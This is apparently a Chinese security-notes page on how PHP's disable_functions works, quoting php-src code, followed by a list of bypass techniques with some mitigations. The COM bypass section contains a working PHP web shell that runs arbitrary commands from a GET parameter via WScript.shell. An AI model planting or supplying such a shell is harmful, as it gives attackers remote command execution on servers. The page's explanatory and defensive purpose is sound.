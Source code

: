 Disable Functions
================================

机制实现
---------------------------------
PHP中Disable Function的实现是在php-src/Zend/Zend-API.c中。PHP在启动时，读取配置文件中禁止的函数，逐一根据禁止的函数名调用 ``zend_disable_function`` 来实现禁止的效果。

这个函数根据函数名在内置函数列表中找到对应的位置并修改掉，当前版本的代码如下：

.. code-block:: cpp

    ZEND_API int zend_disable_function(char *function_name, size_t function_name_length) /* {{{ */
    {
        zend_internal_function *func;
        if ((func = zend_hash_str_find_ptr(CG(function_table), function_name, function_name_length))) {
            zend_free_internal_arg_info(func);
            func->fn_flags &= ~(ZEND_ACC_VARIADIC | ZEND_ACC_HAS_TYPE_HINTS | ZEND_ACC_HAS_RETURN_TYPE);
            func->num_args = 0;
            func->arg_info = NULL;
            func->handler = ZEND_FN(display_disabled_function);
            return SUCCESS;
        }
        return FAILURE;
    }

和函数的实现方式类似，disable classes也是这样实现的

.. code-block:: cpp

    ZEND_API int zend_disable_class(char *class_name, size_t class_name_length) /* {{{ */
    {
        zend_class_entry *disabled_class;
        zend_string *key;

        key = zend_string_alloc(class_name_length, 0);
        zend_str_tolower_copy(ZSTR_VAL(key), class_name, class_name_length);
        disabled_class = zend_hash_find_ptr(CG(class_table), key);
        zend_string_release_ex(key, 0);
        if (!disabled_class) {
            return FAILURE;
        }
        INIT_CLASS_ENTRY_INIT_METHODS((*disabled_class), disabled_class_new);
        disabled_class->create_object = display_disabled_class;
        zend_hash_clean(&disabled_class->function_table);
        return SUCCESS;
    }

因为这个实现机制的原因，在PHP启动后通过 ``ini_set`` 来修改 ``disable_functions`` 或 ``disable_classes`` 是无效的。

Bypass
---------------------------------
- Windows COM组件
	- 利用条件
		 | ▼ php.ini中com.allow_dcom的值为true且extension=php_com_dotnet.dll；
		 | ▼ php/ext/目录下存在php_com_dotnet.dll文件
		 | ▼ 目标服务器为Windows系统且使用PHP语言
	- 利用方法
		 | ▼ 上传com_rce.php文件至服务器
			
			::
			
					<?php
					$command = $_GET['cmd'];
					$wsh = new COM('WScript.shell');
					$exec = $wsh->exec("cmd /c".$command);
					$stdout = $exec->StdOut();
					$stroutput = $stdout->ReadAll();
					echo $stroutput;
					?>
					
		 | ▼ 远程命令执行
			``http://www.xxx.com/com_rce.php?cmd=ipconfig``
	- 防御方法
		 | ▼ 将System32目录下的wshom.ocx文件删除；（推荐，杜绝）
		 | ▼ 删除php/ext/目录下的php_com_dotnet.dll文件，防止被恶意利用；
		 | ▼ 将com.allow.dcom的值设置为false；
- LD_PRELOAD绕过
    - https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
    - ``mail()`` + ``putenv``
- PHP OPcache
- Mail函数
- imap_open
    - https://www.cvedetails.com/cve/cve-2018-19518
